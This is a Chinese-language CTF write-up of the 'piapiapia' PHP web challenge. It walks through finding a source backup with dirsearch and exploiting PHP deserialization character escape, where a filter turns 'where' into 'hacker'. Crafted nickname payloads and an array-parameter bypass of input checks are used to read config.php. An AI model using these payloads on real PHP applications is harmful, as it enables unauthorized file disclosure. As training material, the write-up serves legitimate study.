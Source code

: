 主页面首先是一只名为piapiapia.gif的小猫动图，也是题目名字来源。下面是用户名密码的登录框。

尝试各种sql注入，但是只有invalid user name or password响应。没有展示源码，响应也没有消息头提示。这时候就要目录扫描了。一般注意的是:git源码，robots.txt，网站备份文件

用御剑啥也扫不出来，这软件真不行吧。还是换回最爱的dirsearch

![image-20250911154102353](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250911154102353.png)

这是用备份字典扫出来的，浏览器访问下载一下：

![image-20250911154151933](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250911154151933.png)

一共有这几个文件，大概逻辑如下：

1. 在register.php输入用户名密码注册
2. 在index.php凭借用户名密码登录
3. 在update.php填写个人信息，包括电话，邮箱，名字和上传一张头像
4. 在profile.php展示你填写的信息

关键漏洞代码：

update.php中：

```php
$profile['photo'] = 'upload/' . md5($file['name']);
...
$user->update_profile($username, serialize($profile));
```

profile.php中：

```php
$profile=$user->show_profile($username);
...
$profile = unserialize($profile);
...
$photo = base64_encode(file_get_contents($profile['photo']));
```

```html
<img src="data:image/gif;base64,<?php echo $photo; ?>
```

一看到serilize，就想到反序列化漏洞。再看到file_get_contents，基本思路就确定了。config.php中提示了flag就在其中，我们的目标就是读取config.php.一般读取php文件是要用php://filter进行base64编码，不然echo的时候会被当php代码直接。但是这里题目已经帮你进行了base64编码，所以我们直接让photo的值为config.php即可。

接下来的问题是怎么变？反序列化之前赋值是`$profile['photo'] = 'upload/' . md5($file['name']);`我们怎么甩开upload这个前缀呢？

在class.php中，我们找到了一个过滤函数：

```php
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
```

这里发现了 `preg_replace()`这对字符串进行替换。和反序列化一结合，很容易想到反序列化的字符逃逸：因为过滤时增加或减少了字符导致部分字符逃逸。看看update_profile方法，果然调用了filter函数过滤序列化后的字符串

```php
public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}
```

过滤函数中where->hacker增加了1个字符。我们在photo前一个键的值写入大量where和我们要的photo键值，这样字符增加后，我们要的photo键值就逃逸了出来，顶掉了后面正常的photo值。具体如下：

```php
a:4{s:5:"phone";s:11:"11111111111";s:5:"email";s:10:"111@qq.com";s:8:"nickname";s:6:"orange";s:5:"photo";s:39:"upload/f3ccdd27d2000e3f9255a7e3e2c48800";}
```

这是正常的序列化字符串，我们要在nickname的值处进行构造，nickname=`where*33+ ";s:5:"photo";s:10:"config.php";}`

然后序列化文件如下：

```php
a:4{s:5:"phone";s:11:"11111111111";s:5:"email";s:10:"111@qq.com";
s:8:"nickname";s:198:" where*33 ";s:5:"photo";s:10:"config.php";}        
";s:5:"photo";s:39:"upload/f3ccdd27d2000e3f9255a7e3e2c48800";}
```

过滤后where变成hacker，那么nickname的值的长度198就只能管到刚好最后一个hacker，将后面的`"`认为字符串的结束，并且把剩余内容当作photo的键值对。因为`;}`闭合了这个序列化字符串，后面原本的photo键值对就被忽略了。

我们尝试一下：

![image-20250911193906471](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250911193906471.png)

发现nickname违规！查看源码看看对nickname的检验：

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');
```

我们可以利用数组绕过。`preg_match`和`strlen`函数的参数如果是一个**数组**，会返回`FALSE`并产生一个警告（Warning），但不会停止执行。因为是数组，所以nikname的序列化字符串会不一样，它的值会变成一个数组，如下：

```php
s:8:"nickname"; a:1:{i:0; s:198:" where*33 ";s:5:"photo";s:10:"config.php";} ........
```

为了闭合`a:1:{i:0;`中的`{`,我们需要一个`}`,因此nickname=`where*34+ ";}s:5:"photo";s:10:"config.php";}`

多了一个字符，因此where也要多一个，再次尝试：

![image-20250911200432327](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250911200432327.png)

上传成功！去profile.php查看base64编码后的内容，解码即可

![image-20250911200627182](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250911200627182.png)
